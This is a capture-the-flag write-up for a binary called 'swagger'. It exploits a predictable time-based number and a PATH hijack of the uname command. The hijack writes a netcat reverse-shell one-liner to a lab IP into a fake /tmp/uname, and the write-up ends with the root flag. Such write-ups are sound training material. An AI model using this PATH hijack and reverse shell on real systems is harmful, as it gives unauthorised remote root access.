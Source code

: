 Looks like we have to guess a number. Running strings I found `uname` command without proper path. So I tried to abuse it but I have to guess the correct number. 

# Hint: Time is tricky. Can you trick time.

Hmmm! Let's try to execute the binary many times with a script.

```bash
for i in $(seq 1 6) ; do echo 123 | ./swagger ; done

Guess my number: Nope, that is not what I was thinking
I was thinking of 1680396079
Guess my number: Nope, that is not what I was thinking
I was thinking of 1680396079
Guess my number: Nope, that is not what I was thinking
I was thinking of 1680396079
Guess my number: Nope, that is not what I was thinking
I was thinking of 1680396079
Guess my number: Nope, that is not what I was thinking
I was thinking of 1680396079
Guess my number: Nope, that is not what I was thinking
I was thinking of 1680396079
```

And wow we are getting the same number again and again. So let's take advantage of this.

```bash
touch /tmp/uname
chmod +x /tmp/uname
export PATH=/tmp:$PATH
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.12.130 1234 >/tmp/f " > /tmp/uname
```

We have to pass the number to the binary we have to user grep.

./swagger| grep -oE '[0-9]+' | ./swagger

And yes we got a shell!

# root.txt

```
RME{M@rK-3veRy-hOur-0135d3f8ab9fd5bf}
```
